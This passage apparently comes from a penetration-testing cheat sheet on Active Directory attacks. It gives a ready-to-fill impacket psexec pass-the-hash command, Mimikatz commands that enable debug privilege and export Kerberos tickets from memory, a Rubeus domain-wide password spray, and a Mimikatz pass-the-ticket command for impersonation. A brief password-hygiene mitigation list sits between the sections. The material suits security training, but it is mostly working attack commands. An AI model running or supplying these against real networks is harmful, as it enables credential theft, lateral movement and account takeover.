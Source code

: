 
 > 
 > **<font color=red>python3 /opt/impacket/examples/psexec.py </font>\[TARGET_DOMAIN\]<font color=red>/</font>\[mySamName\]<font color=red>@</font>\[TARGET_IP\] <font color=red>-hashes</font> \[myUserLMHASH\]<font color=red>:</font>\[myUserNTHASH\]**</br>
 > Pass the Hash attack (LM+NT).

### Mitigation

* Limit account re-use:
  * Don't re-use passwords (e.g. Local Admin and Domain Admin).
  * Disable local Guest and Administrator accounts.
  * Limit who is local Administrator.
* Enforce strong password policy:
  * Long, random, no common words, ...
  * Rotate password on a regular basis.
    Credit: TCM Security

# Pass the Ticket

---

### MIMIKATZ

### Hands On

#### Find Local Kribi Tickets


 > 
 > **<font color=red>privilege::debug</font>**</br>
 > Ensure that current user has administrator privileges (the output should be `[output '20' OK]`). This indicates that debugging a process is possible.


 > 
 > **<font color=red>sekurlsa::tickets /export</font>**</br>
 > Export all `.kirbi` tickets into the current directory.

#### Find others Kirbi Tickets (Password Spray)


 > 
 > **<font color=red>Rubeus.exe brute /password:</font>myPassword <font color=red>/noticket</font>**</br>
 > Spray a password against all users in current domain and return the `.kirbi` TGT of users that use this password.

#### Pass the Ticket


 > 
 > **<font color=red>kerberos::ptt</font> myTicketFromSekurlsa<font color=red>.kirbi</font>**</br>
 > Cache and impersonate the given ticket.
